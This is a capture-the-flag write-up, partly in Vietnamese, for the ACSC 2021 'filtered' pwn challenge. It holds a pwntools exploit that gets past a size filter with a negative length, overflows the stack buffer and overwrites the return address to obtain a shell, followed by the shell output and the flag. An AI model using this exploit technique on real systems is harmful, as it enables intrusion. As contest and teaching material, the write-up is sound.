 # Filtered
### Thử thách:
- Filter invalid sizes to make it secure!
- Backup: 
`nc 167.99.78.201 9001`
`nc filtered.chal.acsc.asia 9001`
- [Source](https://github.com/antoinenguyen-09/All_CTF_write-ups/tree/master/Asian%20Cyber%20Security%20Challenge%20(ACSC)/2021/pwn/source)
### Kiến thức nền:
- Buffer Overflow.
### Giải quyết vấn đề:

3) Exploit:

- Exploit code:

```python
from pwn import *
r = remote("167.99.78.201" , 9001)
r.sendline(b"-1")
r.sendline(0x110*b"1" + p64(0xaaaaaaaa)+ p64(0x4011D6))
r.interactive()
```

- Result:

```bash
└─# python3 filtered.py
[+] Opening connection to 167.99.78.201 on port 9001: Done
[*] Switching to interactive mode
 Bye!
$ whoami
pwn
$ ls -la
total 36
drwxr-xr-x 1 root pwn   4096 Sep 18 02:21 .
drwxr-xr-x 1 root root  4096 Sep 18 02:21 ..
-r-xr-x--- 1 root pwn     40 Sep 18 02:20 .redir.sh
-r-xr-x--- 1 root pwn  17008 Sep 18 02:20 filtered
-r--r----- 1 root pwn     59 Sep 18 02:20 flag-08d995360bfb36072f5b6aedcc801cd7.txt
$ cat flag-08d995360bfb36072f5b6aedcc801cd7.txt
ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}
$
```
